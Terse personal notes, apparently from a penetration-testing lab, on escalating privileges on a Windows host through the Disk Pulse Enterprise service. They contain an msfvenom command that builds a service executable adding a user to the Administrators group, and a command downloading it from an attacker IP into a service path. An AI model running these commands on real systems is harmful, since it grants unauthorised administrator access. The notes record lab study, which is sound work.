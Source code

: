 ps
running
  diskpls
  
get-service running
  dis plus enterprise
  I have no idea
  where's the httpd?

netstat -ano
  0.0.0.0:9120 - pid: 1984 > diskpls 
    version? how can I access?
  80 http opened

filesystem
  c:\
    disk management - 2024
    ...

  c:\programdata
  4/28/2024   3:56 AM                PY_Software

  c:\program files
  Notepad++ 2023

  PackageManagement 2024
    like apt 
    chocolatey included

  c:\program files (x86)
    Google 2024

  misconfiguration
    find config files

```powershell
get-service | where-object {$_.status -eq "running" -and $_.displayname -match "dvr"}
```

I think there's no service other than Disk pulse enterprise
  I've got priv of restart-service "Disk pulse enterprise"

```zsh
msfvenom -p windows/x64/exec CMD="net localgroup Administrators minseok.kim /add" -f exe-service -o Disk.exe
```
- don't make a typo > net localgroup Administrators minseok.kim /add
```powershell
wget(invoke-webrequeset) http://10.8.0.129/Disk.exe -OutFile "C:\Disk Management\Disk.exe"
```

- ![alt text](image-3.png)
  - failed, but the warning doesn't matter because it does execute Disk.exe according to the order of function(CreateProcess - WinAPI)

